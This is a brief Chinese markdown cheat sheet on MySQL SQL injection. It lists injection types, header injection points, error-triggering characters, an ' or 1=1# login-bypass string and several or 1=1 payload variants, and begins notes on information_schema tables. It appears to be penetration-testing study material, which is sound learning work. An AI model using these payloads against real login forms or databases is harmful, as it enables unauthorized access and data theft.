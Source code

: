 # Mysql

五种注入

- 布尔型盲注：根据返回页面判断条件真假
- 时间型盲注：用页面返回时间是否增加判断是否存在注入
- 基于错误的注入：页面会返回错误信息
- 联合查询注入：可以使用union的情况下
- 堆查询注入：可以同时执行多条语句

同时，也有可能在UA处 Referer处 Cookie处存在注入

# 使其报错

- 英文单引号
- 英文双引号

# 万能密码测试

- ' or 1=1#

# 判断语句

- or 1=1--+
- 'or 1=1--+
- "or 1=1--+
- )or 1=1--+
- ')or 1=1--+
- ") or 1=1--+
- "))or 1=1--+

此处的`--`为注释，+为占位，也可以通过%20(空格的URL编码)来替代，因为地址栏空格不会进入mysql语句，或者可以直接用%23（#）进行注释

# Information_schema

## 三个常用表

### Schemata

SCHEMA_NAME:数据库名

### tables

TABLE_SCHEMA:数据库名

TABLE_NAME:表名

### columns
